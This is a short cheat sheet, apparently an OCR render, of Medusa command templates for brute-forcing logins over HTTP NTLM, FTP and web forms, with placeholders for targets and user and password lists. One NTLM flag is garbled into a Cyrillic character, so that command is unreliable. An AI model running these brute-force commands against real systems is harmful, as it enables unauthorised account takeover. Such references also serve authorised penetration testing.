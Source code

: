 # List all modules
```sh
medusa -d
```

# Display module options
```sh
medusa -M ssh -q
```

# NTLM brute force
```sh
# -s: Enable SSL
# -t: Total number of logins to be tested concurrently
# -b: Suppress startup banner
medusa -h "<domain/host>" -s -U <file_with_users> -P <file_with_passwords> -M http -m AUTH:NTLM -ь USER-AGENT:"<modern_user_agent>" -m DIR:"<directory>" -m DOMAIN:"<domain_of_users>" -t 10 -b -O <output_files>
```

# Brute force usernames and passwords over FTP
```sh
# -f: Stop scanning host after first valid username/password found.
medusa -h <ip> -U <path_to_usernames> -P <path_to_passwords> -M ftp -n <port> -e ns -f -t 4
```

# Brute force usernames and passwords over web forms
```sh
# -s: Enable SSL
medusa -h <ip> -U <path_to_usernames> -P <path_to_passwords> -n <port> -e ns -M web-form -m FORM:"/login.php" -m DENY-SIGNAL:"Incorrect information" -m FORM-DATA:"POST?Username=&Password=&Submit=Login"
```
